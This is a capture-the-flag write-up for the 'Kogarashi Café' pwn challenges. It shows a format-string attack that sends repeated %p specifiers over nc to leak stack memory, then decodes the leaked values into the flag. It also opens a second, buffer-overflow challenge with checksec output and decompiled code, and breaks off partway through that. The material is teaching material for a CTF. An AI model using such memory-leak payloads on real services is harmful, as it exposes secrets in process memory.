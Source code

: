 From the code, we notice a `printf` call after `fgets` without a format specifier. This indicates a format string vulnerability.

So, let's leak some values.
```
└─$ nc chals1.apoorvctf.xyz 3003  
Welcome to Kogarashi Café.  
Barista: 'What will you have?'  
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %P %p    
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %P %p  
0xd12481 0xfbad2288 0xff2edb7f 0xd124dd (nil) 0x746376726f6f7061 0x334d5f3368547b66 0x736b34334c5f756e 0x68545f6572304d5f 0x68535f74495f6e61 0x7d646c7530 0x404050 0x7fc514f2d5e0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0  
x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa70252050 (nil) 0xd122a0 0x7fffa88540a0 0x401278 %P 0x1
```
then after some multiple tries , we can find that 
```
0x746376726f6f7061 0x334d5f3368547b66 0x736b34334c5f756e 0x68545f6572304d5f 0x68535f74495f6e61 0x7d646c7530 0x404050 0x7f8dbb82b5e0 0x7025207025207025 0x2520702520702520 0x2070252070252070
```
these values are not changing each run , so i tried to convert it in to ASCHII  , which didnt go as planned ,
```
F7g&ö÷3M_3hT{f6³C4Å÷VàhT_er0M_5÷Döæ}dlu0 »µàRRP% p% p% RR
```
since this is not in the readable form ,
then i manually changed the endian of this and converted to the ASCII value like 
0x746376726f6f7061 -> 61706f6f72766374 ...

then the flag is apoorvctf{Th3_M3nu_L34ks_M0re_Than_It_Sh0uld}.

------------------------------------------------------------------------

## Kogarashi Café - The First Visit

Description:
A quiet café, a simple question. The barista waits, but your order may mean more than it seems.

solution:
```
└─$ file first_visit    
first_visit: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux  
.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=ddf24eef326cd1ee996fc66f78c48a6eab6d9b87, not stripped
```
This is the same as above: a 32-bit LSB executable .
security check:
```
└─$ pwn checksec first_visit    
[*] '/home/hyder/pra_ctf/apoorv/pwn/kogarashi/files/first_visit'  
   Arch:       i386-32-little  
   RELRO:      Partial RELRO  
   Stack:      No canary found  
   NX:         NX enabled  
   PIE:        No PIE (0x8048000)  
   Stripped:   No
```
Since there is no canary, there is a buffer overflow vulnerability. Let's take a look at the code
```
void order_coffee(void)

{
  char local_2c [40];
  
  puts(&DAT_08048786);
```